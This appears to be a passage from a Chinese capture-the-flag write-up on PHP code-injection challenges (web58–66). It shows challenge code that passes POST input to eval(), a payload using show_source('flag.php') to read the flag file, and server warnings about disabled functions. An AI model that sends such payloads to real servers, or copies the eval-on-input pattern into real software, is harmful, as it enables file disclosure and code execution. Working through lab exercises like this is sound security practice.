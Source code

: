 同上关但是，

```
Warning: readfile() has been disabled for security reasons in /var/www/html/index.php(17) : eval()'d code on line 1
```

尝试其他读取文件函数

```
c=show_source('flag.php');
```

## web60-65~show_source读取

```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

payload:

```
同58一样
```

## web66~highlight_file读取

```php
<?php
    
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

用以前方法

```

Warning: show_source() has been disabled for security reasons in /var/www/html/index.php(17) : eval()'d code on line 1

```
